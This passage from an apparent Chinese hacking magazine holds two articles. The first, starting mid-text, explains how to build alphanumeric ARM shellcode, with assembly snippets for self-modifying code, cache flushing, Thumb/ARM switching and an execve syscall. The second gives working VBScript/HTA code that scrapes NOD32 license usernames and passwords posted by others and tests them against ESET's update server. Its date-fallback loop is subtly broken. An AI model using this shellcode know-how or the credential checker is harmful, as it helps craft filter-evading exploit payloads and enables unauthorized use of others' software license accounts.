如果是逻辑左移，则第 5 位和第 6 位是 0。这种情况下不是数字字母型的。  
如果是逻辑右移，则第 6 位是 0，第 5 位是 1。但是由于第 4 位是 0，这种情况不是数字字母型的。  
如果是算术右移，则第 6 位是 1，第 5 位是 0。这意味着只要 `Rm` 不是 `R0`，就是数字字母型的。  
如果是循环右移，则第 6 位和第 5 位都是 1；这种位模式是数字字母型，并且允许任何寄存器充当 `Rm`。

其他后变址寻址与上面讨论的方式在后 12 个字节的位布局上相同，唯一的区别是没有设置第 24 位。

### 4、多寄存器 Load-store 寻址指令的筛选

增量寻址将设置指令的第 23 位，减量寻址方式不会设置指令的第 23 位。如果第 23 位被设置，那么指令就不是数字字母型。因此，在数字字母型的 ShellCode 中只能用减量寻址方式。

### 5、条件码筛选

因为条件标志被编码在指令第 4 字节的最高位上，条件标志对指令的字母数字属性有直接影响。因此，只有一组有限的条件代码可以用于数字字母型 ShellCode。应明确的是，一个字节的最高位应该被设置为 0，以确保为字母数字型，这样就排除了 8 个条件码。另外，剩余的字节必须大于 0x30，因此又排除了 3 个条件码。不幸的是 AL 不能用在数字字母型的 ShellCode 中。这意味着所有的 ARM 指令都必须条件执行。在本文中，我们选择 PL 和 MI，它们之间是互异的，所以我们总是能确保一个指令执行：通过简单地向 ShellCode 中增加两次相同的指令，一次用 PL 作为后缀，一次用 MI 作为后缀。

### 6、指令列表

在我们的指令列表里，我们对 SZ/SO（应该是 0 或应该是 1）和 IZ/IO（必须是 0 或必须是 1）做一个区分……下面这张表列出了 ARMv6 的所有指令。对于每一条指令，我们要做一些简单的限制，以便指令为数字字母型。我们的检查主要集中在第 2 个字节的高阶位（第 23 位到第 20 位）……我们使用下列约束条件：

- “IO” 是用来表示一个或多个位总是 1。
- “IZ” 是用来表示一个或多个位总是 0。
- “SO” 是用来表示一个或多个位应为 1。
- “SZ” 是用来表示一个或多个位应为 0。

| instruction | version | 23 | 22 | 21 | 20 | disqualifiers |
|---|---:|---:|---:|---:|---:|---|
| ADC |  | 1 | 0 | 1 | d | IO:23 |
| ADD |  | 1 | 0 | 0 | d | IO:23 |
| AND |  | 0 | 0 | 0 | d | IZ:23-21 |
| B,BL |  | d | d | d | d |  |
| BIC |  | 1 | 1 | 0 | d | IO:23 |
| … | … | … | … | … | … | … |

由于篇幅关系，这里不再多列举。上面列举的 147 条指令都来自 ARM 的最新修订文档，我们现在去掉特殊 ARM 处理器上的指令和那些因为与数字字母型位模式不兼容的指令。经过这样的筛选后，我们只剩 18 条指令：B/BL, CDP, EOR, LDC, LDM(1), LDM(2), LDR, LDRB, LDRBT, LDRT, MCR, MRC, RSB, STM(2), STRB, STRBT, SUB, SWI。

- B/BL：分支指令在大多数情况下被限制。
- CDP：用于让协处理器处理数据。
- LDC：从连续内存装载数据到协处理器寄存器。
- MCR/MRC：把数据送入或取出协处理器寄存器（ARMv6 前为特权指令）。

现在我们只剩 13 条指令：EOR, LDM(1), LDM(2), LDR, LDRB, LDRBT, LDRT, RSB, STM, STRBT, SUB, SWI。现在我们将基本功能相同的指令归类。

- EOR：异或运算。
- LDM（LDM(1), LDM(2)）：从连续内存空间装载多个寄存器。
- LDR（LDR, LDRB, LDRBT, LDRT）：从内存把一个数值装入寄存器。
- STM：将多个寄存器保存到连续内存空间。
- STR：将一个寄存器保存到内存。
- SUB：减法运算。
- SWI：软件中断。

很不幸的是，上面通过筛选留下来的 13 条指令，并不能保证它们一直都是数字字母型，这还要依赖于它们使用什么样的操作数。因此，我们还要为每一条指令加上限制条件，以确保它们是数字字母型。

```text
EOR : Syntax : EOR <cond> [S] <Rd>, <Rn>, <shifter_operand>
```


为了保证第 2 个字节是数字字母，S 位必须被设置为 1；如果被设置为 0，得到的数值将小于 47，那样就不是数字字母。

同时，`Rn` 不能使用超过 `R9` 以上的寄存器，因为 `Rd` 被编码在第 3 个字节的前 4 位，因此它不能以 `1` 开头，这意味着它只有低寄存器可用。另外，它也不能使用寄存器 `R0～R2`，因为那会产生过低字节而导致不是数字字母。移位操作数必须经过调整，以便使其在与 `Rd` 的组合中能产生有效的数字字母。当然，最低的 8 位也是非常重要的，因为它们决定了指令的第 4 字节是否为数字字母。

`LDM(1): Syntax: LDM {<cond>} <addressing_mode> <Rn> {}, <registers>`  
`cond | 1 | 0 | 0 | p | u | 0 | w | 1 | Rn | Register list`

`LDM(2): Syntax: LDM {<cond>} <addressing_mode> <Rn>, <registers_without_pc>`  
`cond | 1 | 0 | 0 | p | u | 1 | 0 | 1 | Rn | 0 | Register list`

在这两条指令中，要被选择使用的寄存器被编码在后两个字节上，因此并不是所有的寄存器都能使用。特别是对于低寄存器，`R1` 一定不能用。`R6` 或 `R5` 必须要用，如果 `R6` 没被使用，则 `R4` 必须要被使用。这对于高寄存器同样适用。另外，为了保证指令的第二个字节为数字字母，`U` 位必须设置为 `0`，`W` 位必须设置为 `1`。对于 `Rn`，在指令 `LDM(1)` 中，可以使用寄存器 `R0～R9`；在指令 `LDM(2)` 中，可以使用寄存器 `R0～R10`。

`LDR: Syntax: LDR {<cond>} <Rd>, <addressing_mode>`  
`cond | 0 | 1 | 1 | p | u | 0 | w | 1 | Rn | Rd | Addr_mode`

`LDRB: Syntax: LDR {<cond>}B <Rd>, <addressing_mode>`  
`cond | 0 | 1 | 1 | p | u | 1 | w | 1 | Rn | Rd | Addr_mode`

`LDRBT: Syntax: LDR {<cond>}BT <Rd>, <post_indexed_addressing_mode>`  
`cond | 0 | 1 | 1 | 0 | u | 1 | 1 | 1 | Rn | Rd | Addr_mode`

`LDRT: Syntax: LDR {<cond>}T <Rd>, <post_indexed_addressing_mode>`  
`cond | 0 | 1 | 1 | 0 | u | 0 | 1 | 1 | Rn | Rd | Addr_mode`

在上面的指令中，为了保证第 3 个字节的最低 4 位与 `Rd` 的组合中为数字字母，`Rd` 不能使用高寄存器和低寄存器 `R0～R2`，同时 `u` 位也必须设置为 `0`。

`STM: Syntax: STM{<cond>} <addressing_mode> <Rn>, <registers>`  
`cond | 1 | 0 | 0 | p | u | 1 | 0 | 0/1 | Rn | Register list`

`STRB: Syntax: STR{<cond>}B <Rd>, <addressing_mode>`  
`cond | 0 | 1 | 1 | p | u | 1 | w | 0 | Rn | Rd | Addr_mode`

`STRBT: Syntax: STR{<cond>}BT <Rd>, <post_indexed_addressing_mode>`  
`cond | 0 | 1 | 1 | 0 | u | 1 | 1 | 0 | Rn | Rd | Addr_mode`

指令 `STM` 的结构与指令 `LDM` 的结构很相似，同时指令 `STRB` 结构与指令 `LDRB` 的结构也很相似。因此也是同样的限制条件，唯一不同的是，为了保证指令的第 3 字节为数字字母，`Rn` 必须用其他的值。

`SUB: Syntax: SUB {<cond>} {S} <Rd>, <Rn>, <shifter_operand>`  
`cond | 0 | 0 | 1 | 0 | 0 | ... | 0 | S | Rn | Rd | Shifter_operand`

`RSB: Syntax: RSB {<cond>} {S} <Rd>, <Rn>, <shifter_operand>`  
`cond | 0 | 0 | 1 | 0 | 0 | 1 | 1 | S | Rn | Rd | Shifter_operand`

为了保证指令的第 2 个字节是数字字母，`Rn` 和 `S` 位必须相应进行设置。另外，`Rd` 不能使用高寄存器和低寄存器 `R0～R2`。

`SWI: Syntax: SWI {<cond>} <immed_24>`  
`cond | 1 | 1 | 1 | 1 | Immed_24`

对于我们来说，`SWI` 的第 1 个字节必须是数字字母。非常幸运的是，我们可以通过前面提到过的条件码来实现这一点，其他的三个字节由立即数完全决定。

## 7. 从寄存器中得到一个已知的数值

当我们的 ShellCode 开始执行时，面临一个问题：我们不知道寄存器中含有什么样的数，因此我们必须把自己的数放到寄存器中，但是我们没有一些可用的指令来完成这件事。我们不能用 `mov` 指令，因为它不是数字字母型的。我们必须在筛选出来的指令中选择，不能全部以寄存器为参数使用异或，或通过自我异或，或使用减法指令通过自身相减而得到 `0` 送入寄存器。

虽然我们可以以一个立即数为参数使用异或指令和减法指令，但是我们不知道寄存器中的数值，因此我们无法得到一个合适的立即数以返回我们想要的结果。

因为这些是我们唯一的算术指令，我们不能从寄存器得到一个已知数。所以我们的办法是使用指令 `LDR`。既然我们已经知道要写什么样的代码了，我们可以将 ShellCode 作为数据，取其中的一个字节送入寄存器。

例如：

```asm
SUB r3, pc, #48
LDRB r3, [r3, #-48]
```

`pc` 一直指向我们的 ShellCode，但在 `LDR` 指令中我们不能直接使用它，因为这会导致纯数字型的代码。因此我们将 `pc` 复制到寄存器 `R3`，然后在指令 `LDRB` 中，从我们的 ShellCode 中得到一个字节送入 `R3`（这里用 `48` 作为偏移地址，以保证指令的最后一个字节是数字字母）。这样以后就可以把 `R3` 用作基址寄存器装载数据到其他寄存器；`R3` 减 `48` 将得到数字 `0`；减 `49` 将得到数字 `-1`，等等。

### 8. 写入寄存器 R0～R2

在上面筛选指令中提到的一个限制条件就是：大多数指令都有 `Rd` 操作数，不能用 `R0～R2` 寄存器作为目的寄存器，原因是目的寄存器被编码在一个操作数的第 3 个字节的 4 个最重要位上，如果这些位被设置为 `0、1、2`，将导致这个字节不是数字字母。

在 ARM 处理器上，寄存器 `R0～R3` 被用来向函数传递参数，如果一个函数有 4 个以上的参数，超出的参数被压入堆栈，这又给我们出了一个难题。因为在我们的 ShellCode 中，为了给函数传递参数，我们需要使用 `R0～R2`。但是要改写这些寄存器的内容很难，因为绝大多数操作数不能使用 `R0～R2` 作为目的寄存器。

有一个指令我们可以用来改写最低三个寄存器，而且能保证为数字字母型。指令 `LDM` 将堆栈中的数据送入多个寄存器，它将要写入的寄存器列表编码在最后两个字节。如果 `0～2` 位被设置，则寄存器 `R0～R2` 也可以被写入。为了使这条指令为数字字母型，我们必须增加另外一些寄存器。在示例 ShellCode 中，我们将使用寄存器 `R0～R3` 进行数值计算，把计算结果保存到堆栈，然后使用 `LDM` 指令将结果送入寄存器 `R0～R2`。

### 9. 自修改代码

仅仅使用去掉纯数字字节的指令是很难写出有趣的 ShellCode 的。因为只有有限的算术操作支持，这使得做系统调用所需的运算很困难。另外，没有条件执行指令，就不可能做循环运算。

一个有趣的选择就是从 ARM 模式切换到 Thumb 模式。因为 Thumb 模式的指令较短，很可能有更多有效的指令可以利用。为了从 ARM 模式进入 Thumb 模式，我们必须使用 `BX` 指令，然而那条指令不是数字字母型。

另一种可以利用的方法是写自修改代码，基本思路是用数字字母型的指令把纯数字型指令写入内存。因为目标代码已经被写入内存，只要简单地跳转执行就行了。让我们来看一个例子：为了简单起见，我们在这里讨论纯数字 ShellCode 的情况，在这种情况下，只有空字节不被允许。假如你想实现这样的操作：

```asm
MOV r0, #0
```

这条指令的十六进制是 `0xe3a00000`，因为在这条指令中有两个空字节，我们需要另一条指令或自修改代码来代替它实现同样的操作。在这个例子中，我们用自修改代码：

```asm
LDRH r1, [pc, #6]
EOR  r1, r1, #384
STRH r1, [pc, #2]
.byte 0xe3, 0xa0, 0x80, 0x01
```

在这小段代码中，我们将 `0x80, 0x01` 送入寄存器 `R1`，然后用 `384` 对它们进行异或运算，再把结果写回到原始代码，这样代码将不再有空字节。

### 10. 指令高速缓冲区

因为 ARM 处理器有一个指令高速缓冲区（cache），而使编写自修改代码变得困难，因为大多数将要被执行的指令会被放入高速缓冲区。Intel 处理器可以与自修改代码相兼容，它将保证当代码被写入内存执行时，不会被送到快速寄存器。ARM 处理器结构则不一样，这意味着被写入内存的指令与最终执行的指令是不一样的，因为在执行前它们被送到了高速缓冲区。由于指令高速缓冲区大小的限制，不刷新而写自修改代码的 ShellCode 是很困难的。

一个绕过指令高速缓冲区的方法是使用 `MCR` 指令。这条指令可以使我们把一个寄存器送入协处理器，并且它是数字字母型。我们可以通过设置一个寄存器的特殊行为，然后使用 `MCR` 指令将被设置的寄存器送入协处理器的状态寄存器来关闭指令高速缓冲区。但正如我们前面提到的，这条指令在 ARMv6 以前是特权指令。因为它不是通用的，我们在这里不再做进一步的探讨。

在没有刷新指令高速缓冲区之前，我们是不能将 `SWI` 指令写入内存的，因为我们需要用这条指令来刷新指令高速缓冲区。在 ARM 处理器上，高速缓冲区刷新的系统调用的十六进制代码是 `0x9f0002`，它们显然不是数字字母，用它们作为我们自修改代码的一部分显然是有问题的。但是因为 `SWI` 能产生软件中断，而作为中断的句柄 `0x9f0002` 因为是数据会被读入高速缓冲区，所以在自修改代码中，我们可以为 `SWI` 选择参数，参数会被正确读入。在纯数字的代码中，我们使用这样一系列操作来刷新高速缓冲区：

```asm
MOV r0, #0
MOV r1, #1
MOV r2, #0
SWI 0x9f0002
```

既然这些指令能产生出一些数字字节，那么在我们的 ShellCode 中，自修改代码要使用到这种技巧。

### 11. 进入 Thumb 模式

正如上面所提到的，我们不需要进入 Thumb 模式以使我们的 ShellCode 可以运行。但是进入 Thumb 模式很方便，因为我们只需要保证每条指令的 2 个字节为数字字母，相比 ARM 模式下的 4 个字节要容易得多。下面的例子可以让我们进入 Thumb 模式：

```asm
SUB r6, pc, #1
BX  r6
```

由于指令 `BX` 不是数字字母，我们必须重写 ShellCode 来完成相应的操作。在执行系统调用刷新高速缓冲区之前，我们必须修改这条指令。

下面是在 Thumb 模式下的所有指令，根据不同的处理器版本有所限制。我们来挑选出符合我们要求的数字字母型指令。（由于指令比较多，限于篇幅的关系，这里不再贴出，只给出挑选的结果。）如果我们淘汰那些不是在所有 ARM 处理器上都适用的、不是数字字母型的或者需要特殊硬件才能执行的指令后，将剩余的指令加以分类，将得到下面这些指令：

- ADC: Add with carry
- ADD: add
- ASR: arithmetic shift right
- BX: branch and exchange
- CMP: compare
- LDR: load register
- MOV: move
- MUL: multiply
- NEG: negate
- ORR: logical or
- STR: store register
- SUB: subtract
- TST: test

很明显，我们在 Thumb 模式下比在 ARM 模式下可以得到更多可用的指令。但是每一个指令的使用还是有限制的。对每一条指令，我们只能用指定的寄存器和数值作为参数。因为指令大小的关系，这些限制条件比在 ARM 下更加复杂。下面我们将讨论每一条指令的限制条件。

#### ADC

`ADC: Syntax: ADC <Rd>, <Rm>`

ADC 指令编码位图（15..0，含 `Rm`、`Rd` 字段）。

由于第 7 位被设置为 `0`，第 6 位被设置为 `1`，对于参数 `Rm` 和 `Rd`，我们只能使用低寄存器。我们不能用 `R0` 同时作 `Rm` 和 `Rd` 的参数，因为这将导致 `0x40`（`@`）的产生。最重要的一点是我们必须知道参数的进位标志，因为它也会被加到最终结果中。

#### ADD

在 ARM 手册中，Thumb 模式下的 `ADD` 指令有 7 个不同版本。我们将参照手册进行说明。`ADD(1)`、`ADD(3)`、`ADD(5)`、`ADD(6)` 和 `ADD(7)` 都不能使用，因为它们的第 1 个字节不是数字字母。这样我们就剩下了 `ADD(2)` 和 `ADD(4)`。

`ADD(2): Syntax: ADD <Rd>, #<imm_8>`  
ADD(2) 指令编码位图（15..0，含 `Rd`、`imm_8`）。

`Rd` 可以是任意的低寄存器，可是 `imm_8` 必须遵循以下限制条件，才能保证为数字字母型：

- `-47 < imm_8 < 123`
- `imm_8` 不能是 `58–64` 或 `91–96`

`ADD(4): Syntax: ADD <Rd>, <Rm>`  
ADD(4) 指令编码位图（含 `H1`、`H2`、`Rm`、`Rd`）。

在 `H1` 是 `1` 的情况下，`Rd` 必须是一个高寄存器；在 `H2` 是 `1` 的情况下，`Rm` 必须是一个高寄存器。并且在特定位组合下，同时使用某些低寄存器会产生不可预期结果。

#### ASR

有两个版本的 `ASR`。`ASR(1)` 允许使用常数作为参数进行移位操作，但它是非数字字母型的，所以我们只能用 `ASR(2)`。

`ASR(2): Syntax: ASR <Rd>, <Rs>`  
ASR(2) 指令编码位图（含 `Rs`、`Rd`）。

由于第 7 位和第 6 位都是 `0`，则 `Rs` 的前两位必须为 `1`，这意味着 `Rs` 必须是 `R6` 和 `R7` 两者之一。

#### BX

`BX: Syntax: BX <Rm>`  
BX 指令编码位图（含 `H2`、`Rm`）。

分支指令可以被用来进入 ARM 模式。这对于从 Thumb 模式开始的代码是非常有用的。因为在 Thumb 模式中 `SWI` 指令不是数字字母型的，所以如果我们要修改子代码，我们是不能刷新高速缓冲区的。这时候，我们可以使用 `BX` 指令进入 ARM 模式。因为在 ARM 模式 `SWI` 指令是数字字母型，后面我们将详细探讨。

如果我们将第 6 位置为 `0`，我们必须同时把第 5 位和第 4 位设置为 `1`，这意味着我们仅仅可以使用低寄存器 `R6` 和 `R7`；对于高寄存器，我们使用 `R9`、`R10`、`R11`、`R13`、`R14` 和 `R15`。

#### CMP

有 3 种版本的 `CMP`，包括 `CMP(1)`、`CMP(2)`、`CMP(3)`，但 `CMP(2)` 不是数字字母型。

`CMP(1): Syntax: CMP <Rn>, #<imm_8>`  
CMP(1) 指令编码位图（含 `Rn`、`imm_8`）。

同 `ADD(2)` 的限制条件一样，`Rn` 可以是任意低寄存器，但 `imm_8` 必须遵循：`-47 < imm_8 < 123`，且不能是 `58–64` 或 `91–96`。

`CMP(3): Syntax: CMP <Rn>, <Rm>`  
CMP(3) 指令编码位图（含 `H1`、`H2`、`Rm`、`Rd`）。

与 `ADD` 的限制条件相同：某些情况下只能使用一高一低寄存器组合；若同时使用两个低寄存器，结果可能不可预测。

#### LDR

该指令有许多版本：`LDR(1)～LDR(4)`、`LDRB(1)`、`LDRB(2)`、`LDRH(1)`、`LDRH(2)`、`LDRSB` 和 `LDRSH`。这里讨论可用于当前场景的版本。

`LDR(1): Syntax: LDR <Rd>, [<Rn>, #<imm_5>*4]`  
LDR(1) 指令编码位图（含 `imm_5`、`Rn`、`Rd`）。

寄存器使用限制与立即数有关；在部分 `imm_5` 取值下可使用更多寄存器，而在受限取值下 `Rn` 只能取特定寄存器。

`LDR(2): Syntax: LDR <Rd>, [<Rn>, <Rm>]`  
LDR(2) 指令编码位图（含 `Rm`、`Rn`、`Rd`）。

因为第 7 位只能是 `0`，`Rm` 取值受限；不同 `Rm` 取值时，`Rn` 与 `Rd` 也有组合限制，某些组合会导致不可用编码。

`LDR(3): Syntax: LDR <Rd>, [PC, #<imm_8>*4]`  
LDR(3) 指令编码位图（含 `Rd`、`imm_8`）。

与 `ADD(2)` 和 `CMP(1)` 类似，`Rd` 为低寄存器，`imm_8` 需要满足数字字母型限制。

`LDRB(1): Syntax: LDRB <Rd>, [<Rn>, #<imm_5>]`  
LDRB(1) 指令编码位图（含 `imm_5`、`Rn`、`Rd`）。

`imm_5` 要小于 `12`，并且需要避开会导致第二字节高位异常的取值（如 `11`、`10` 等相关受限值）。

`LDRB(2): Syntax: LDRB <Rd>, [<Rn>, <Rm>]`  
LDRB(寄存器偏移) 指令编码位图（含 `Rm`、`Rn`、`Rd`）。

由于第 2 个字节与 `LDR(2)` 是相同的，因此限制条件也相同。

`LDRH(2): Syntax: LDRH <Rd>, [<Rn>, <Rm>]`  
与 `LDR(2)` 和 `LDRB(2)` 的限制条件相同。

`LDRSB: Syntax: LDRSB <Rd>, [<Rn>, <Rm>]`  
同样，与 `LDRB(2)` 的限制条件相同。

`LDRSH: Syntax: LDRSH <Rd>, [<Rn>, <Rm>]`  
与 `LDRB(2)` 和 `LDRH(2)` 的限制条件相同。

#### MOV

有 3 种不同版本的 `MOV` 指令，但是只有 `MOV(3)` 是数字字母型，它用来在高寄存器之间传递数据。

`MOV: Syntax: MOV <Rd>, <Rm>`

同样，如果 `Rm` 是 `R8`，则 `Rd` 不能是 `R0`。同时使用两个低寄存器，结果是难以预计的。

#### MUL

`MUL: Syntax: MUL <Rd>, <Rm>`

因为指令 `MUL` 的第 2 个字节与 `ADC` 指令的第 2 个字节相同，因此它们有相同的限制条件。

#### NEG

`NEG: Syntax: NEG <Rd>, <Rm>`

`NEG` 的第 2 个字节与 `MUL` 和 `ADC` 相同，因此有同样的限制条件。

#### STR

`STR` 有许多版本：`STR(1)~STR(3)`、`STRB(1)`、`STRB(2)`、`STRH(1)`、`STRH(2)`。`STR(3)` 和 `STRH(1)` 不是数字字母型。

`STR(1): Syntax: STR <Rd>, [<Rn>, #<imm_5>*4]`  
同 `LDR(1)`。

`STR(2): Syntax: STR <Rd>, [<Rn>, <Rm>]`  
同 `LDR(2)`。

`STRB(1): Syntax: STRB <Rd>, [<Rn>, #<imm_5>]`  
因为第 11 位为 `0`，限制条件比 `LDRB(1)` 宽松，与 `STRB(1)` 相同。

`STRB(2): Syntax: STRB <Rd>, [<Rn>, <Rm>]`  
同 `LDRB(2)`。

`STRH(2): Syntax: STRH <Rd>, [<Rn>, <Rm>]`  
同 `STRB(2)`。

#### SUB

`SUB` 有 4 种版本，但仅有 `SUB(2)` 是数字字母型。

`SUB(2): Syntax: SUB <Rd>, #<imm_8>`

因为 `SUB(2)` 的第 2 个字节仅含有一个立即数，它与 `ADD(2)`、`CMP(1)` 和 `LDR(3)` 的第 2 个字节有相同限制条件。但 `SUB` 前 5 位为 `00111`（`0x38~0x3f`），只有 `0x38` 和 `0x39` 是数字字母，故 `Rd` 只能使用 `R0` 和 `R1`。

#### TST

`TST: Syntax: TST <Rn>, <Rm>`

因为第 7 位和第 6 位被设置为 `0`，意味着第 5 位和第 4 位必须被设置为 `1`，于是制定了约束：`Rm` 只能为 `R6` 或 `R7`。若 `Rm` 为 `R6`，则 `Rn` 可为任意低寄存器；若 `Rm` 为 `R7`，则 `Rn` 只能是 `R0` 或 `R1`。

上面的指令列表遗漏了一个重要指令 `SWI`。Thumb 模式下 `SWI` 不是数字字母型，不能直接传递系统调用号；需放入 `R7` 后调用。在 ARM 模式系统调用时也可直接将编号放入 `R7`。

在 ARM 模式下调用 `execve` 的例子：

```asm
SWI 0x90000B
```

在 Thumb 模式下：

```asm
MOV r7, #0x0b
SWI 48
```

### 12. 进入 ARM 模式

尽管代码已在 Thumb 模式运行，但仍有问题：Thumb 模式下不能编写自修改代码，且不能通过 `SWI` 刷新高速缓存。可在需要时进入 ARM 模式，以下是一个进入 ARM 模式的例子：

```asm
BX  pc
ADD r7, #50
```

我们需要添加一个空指令，因为 `pc` 将指向现在执行的指令 `+4` 的地址处。

## 总结

这篇文章演示了在 ARM 处理器上实现数字字母型 ShellCode 的可能性。尽管由于 ARM 处理器本身原因使事情困难，但仍找到了一些方法使其可行。

为了帮助完成 ShellCode，使用了 Thumb 指令，它的高代码密度优势更容易写出数字字母型 ShellCode。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键字：HTA、NOD32

# HTA 编写 NOD32 ID 获取器

文/图 pk


开篇之前，先说明本文用到的对象 Msxml2.XMLHTTP 和 Adodb.Stream。如果您的本地计算机没有这两个对象，那么本文涉及的脚本将可能无法使用。本文使用脚本编辑器 Notepad++，编写环境为 Windows XP SP3。

在大多数情况下，计算机里没有安装 VC 之类的 IDE 编译器。所以当我希望写个小型的计算程序时，会毫不犹豫地打开记事本。而 VBS 这种解释型语言的存在，给我这种懒人提供了很大的方便……HTA 的出现，极大改善了这种尴尬的情况。

NOD32 的 ID 获取器不是什么新鲜的东西……一种是直接从 NOD32 的服务器中请求可用 ID，一种是直接分析并获取网络上别人公开的 ID，本文所讲的 HTA 是第二种。流程图如图 1 所示。

过程和对 ID 有效性进行验证。下面是这两个函数的代码：

```vb
'匹配测试
Function RegExpTest(patrn, str)
    Dim regEx, Match, Matches
    Set regEx = New RegExp
    regEx.Pattern = patrn
    regEx.IgnoreCase = True
    regEx.Global = True
    Set Matches = regEx.Execute(str)
    For Each match In Matches
        str1 = str1 & match.SubMatches(0) & ":" & match.SubMatches(1) & Chr(13)
    Next
    RegExpTest = str1
    Set regEx = Nothing
End Function

'数据分析
Function Analysis(Data,time)
    MsgBox "连接成功！搜索时间将视你的网络状态而定，一般在15秒内。", vbExclamation, "搜索开始..."
    Strids = RegExpTest("(?:用户名)\s*:\s*[EAV-\d+][\s\S]*?(?:密码)\s*:\s*(\w+)", Data)
    Ids = Split(Trim(Strids), Chr(13), -1, 1)
    For i = 0 To UBound(Ids)-1
        id = Split(Ids(i), ":", -1, 1)
        aids = aids & check(id(0), id(1)) & vbCrLf & "</br>"
    Next
    aids = "以下是" & time & "校验通过的 EAV ID" & "<br></br>" & vbCrLf & aids
    Analysis = aids
End Function
```

通过 RegExp 对象，我们可以对一个字符串的内容进行正则匹配。它为我们提供这样几个属性进行设置。Pattern 属性设置正则匹配的规则……IgnoreCase 属性设置是否区分大小写。

通过对某资源页面的分析（http://www.xxxxxx.cn/nod32-id），我们发现，EAV 的 ID 和 PASSWORD 总会出现在“用户名：‘EAV-’ 密码：”这几个部分之间……



图 1

从流程图可以看出，其中比较重要的两个流程是正则匹配。已查询资料，不再占用版面。ID 的有效性验证，我们是通过发送 ID 信息到 NOD32 的验证服务器，通过服务器返回的状态来判断该 ID 是否有效。

```vb
'校验ID
Function Check(usr,psw)
    Dim https
    Set https = CreateObject("Msxml2.XMLHTTP")
    With https
        .Open "GET", "http://update.eset.com/download/engine3/em...", False, usr, psw
        .Send
        If https.status = 200 Then
            Check = "用户名：" & usr & " 密码：" & psw
        End If
    End With
    Set https = Nothing
End Function
```

Msxml2.XMLHTTP 给我提供了 Status 这个很好的东西，通过抓包分析，当我们提交的 ID 可用时，NOD32 的服务器会给我们返回状态码 200。当 ID 无效时，NOD32 的服务器返回的状态码则是 401。所以，我们只需要将返回 200 状态的 ID 保留下来即可。

好了，最核心的部分写完了，我们需要考虑一些异常情况下的处理。首先，通过 Msxml2.XMLHTTP 获取到的网页内容是二进制内容，无法进行正则匹配，我们需要将其转换为字符串后再进行处理，用到的对象是 Adodb.Stream。

其次，由于我们获取的是别人公布的 ID 资源，这就存在着一些不可靠性。通过对资源页面的分析，我们可以发现，最新的页面形式如下：`http://www.xxxxxx.cn/nod32-id/2010-10-5`。链接最后部分是发布时间，页面更新较快，基本是每天更新。

```vb
Function UrlTest()
    link="http://www.nod32jihuoma.cn/nod32-id/" & Date & ".html"
    If InStr(GetUrl(link), "<!DOCTYPE html PUBLIC") <> 0 Then
        UrlTest = Analysis(GetUrl(link), Date)
        DataArea.InnerHTML = UrlTest
    Else
        MsgBox "连接不上服务器，自动尝试其他链接"
        Do Until InStr(GetUrl(link), "<!DOCTYPE html PUBLIC") <> 0
            Dates = Date - 1
            link = "http://www.nod32jihuoma.cn/nod32-id/" & Dates & ".html"
        Loop
        UrlTest = Analysis(GetUrl(link), Date)
        DataArea.InnerHTML = UrlTest
    End If
End Function
```

通过自定义函数 GetUrl 返回的状态，我们可以判断最新页面是否可用，如果不可用，则通过 Date-1 进行循环，一直找到可用的资源页面。这样就大大提高了资源页面数据获取的可靠性。

当然还有一种极端情况，就是 ESET 公司大幅度封杀 ID，获取最新页面上的 ID 全部校验无效，这时也需要进行异常处理。

大家提供一个处理思路，就是让之前的 Check 函数返回一个 False 值，当验证全部失效时，返回 False 值就可以了。好了，脚本最核心的部分写完了，我们开始用 HTA 对页面进行优化。

HTA 其实是 HTML Application 的缩写，说白了就是 HTML 网页，只是用 mshta 来进行解释。但是 HTA 又有许多特别的属性。

```html
<html>
<head>
<title>hello hta</title>
<hta:application
  applicationname="hello hta"
  border="none"
  borderstyle="sunken"
  caption="yes"
  icon="filename.ico"
  maximizebutton="yes"
  minimizebutton="yes"
  showintaskbar="no"
  singleinstance="no"
  sysmenu="yes"
  windowstate="normal"
  scroll="no" />
<script language="vbscript">
sub test
  msgbox "hello hta"
end sub
</script>
</head>
<body>
<p>hello hta</p>
<input type="button" value="press me" onclick="test">
</body>
</html>
```

很明显，和普通 HTML 最大的区别在于 `<hta:application>` 这个标签，通过这个标签我们可以对 HTA 的一些属性进行设置。例如设置 `scroll="no"` 可以去掉侧边滚动条。并且 HTA 里面可以使用脚本，从而丰富应用。

